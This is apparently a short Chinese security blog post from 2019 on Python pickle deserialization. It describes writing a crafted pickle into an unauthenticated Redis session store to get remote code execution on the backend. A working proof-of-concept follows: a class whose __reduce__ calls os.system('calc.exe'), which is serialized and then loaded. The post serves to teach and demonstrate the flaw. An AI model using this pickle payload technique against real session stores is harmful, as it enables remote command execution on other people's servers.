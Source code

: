 ```yaml
---
id: 378
title: python反序列化利用
date: 2019-04-11T10:36:08+00:00
author: bfpiaoran
layout: post
categories:
  - 未分类
---
```

今天无意看到的场景  redis未授权访问但被降权，redis用于存储用户session，后端python    序列化读取session

![](http://www.cuijianxiong.top/wp-content/uploads/2019/04/38bc6b14aff818a6ed79317ee71570a5.png) 

先来一张Pickle  序列化得样子

然后写进去 当访问session  python会反序列化造成rce

这里写个测试例子

s为payload

&nbsp;

<pre class="pure-highlightjs"><code class="">import pickle
import os

class exp(object):
	def __reduce__(self):
		s = "calc.exe"
		return (os.system,(s,))

e = exp()
s = pickle.dumps(e)

with open("rce","wb") as f:
	f.write(s)


with open("rce","rb") as e:
    data = pickle.loads(e.read())
    print(data)</code></pre>

&nbsp;

![](http://www.cuijianxiong.top/wp-content/uploads/2019/04/8a3595036590e02d61112e01a2f58481.png)